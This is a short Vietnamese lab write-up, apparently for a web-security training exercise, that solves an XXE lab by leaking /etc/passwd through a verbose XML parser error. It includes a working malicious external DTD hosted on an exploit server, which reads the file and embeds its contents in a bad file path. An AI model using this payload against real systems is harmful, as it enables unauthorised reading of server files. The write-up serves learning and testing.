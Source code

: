 ![](img/17.png)
### Giải quyết
- Ở lab này khi thử thay đổi XML input response sẽ trả về lỗi chi tiết 
![](img/18.png)
- Sau đó tôi thử trích xuất nội dung tệp mong muốn qua thông báo lỗi.
- Tương tự lab trước đó tôi lưu 1 file dtd trên exploit server như sau:
``` 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'file:///test/%file;'>">
%eval;
%exf;
```
- Khác biệt ở chỗ `file:///test/%file` với `test` là 1 đường dẫn không tồn tại và `%file` là nội dung của file `/etc/passwd`.
- Vì không thấy tệp `file:///test/%file` nên sẽ gây ra lỗi và từ đó ứng dụng sẽ hiển thị thông báo lỗi ra.
- Sau đó kích hoạt file dtd này trên exploit server 
![](img/19.png)
![](img/20.png)
###### Solved!
